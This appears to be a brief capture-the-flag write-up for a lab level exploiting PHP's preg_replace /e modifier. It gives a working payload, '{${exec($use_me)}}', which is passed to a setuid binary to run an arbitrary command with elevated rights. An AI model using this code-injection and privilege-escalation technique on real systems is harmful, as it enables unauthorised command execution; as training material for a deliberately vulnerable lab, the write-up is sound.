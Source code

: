 ### Level 09  

The vulnerability mentioned in the description is the `/e` modifier used in the regex,
combined with the function `preg_callback`.    

Briefly, if this modifier is set, the string passed in as the `replacement` argument is evaluated as PHP code.  

We are also going the second input parameter to ```flag09``` so we don't have escape anything:   
```
echo [email "{${exec($use_me)}}"] > /home/level09/file_with_email.txt
./flag09 /home/level09/file_with_email.txt getflag
```  
should work since ```flag09``` has the `setuid` bit set.  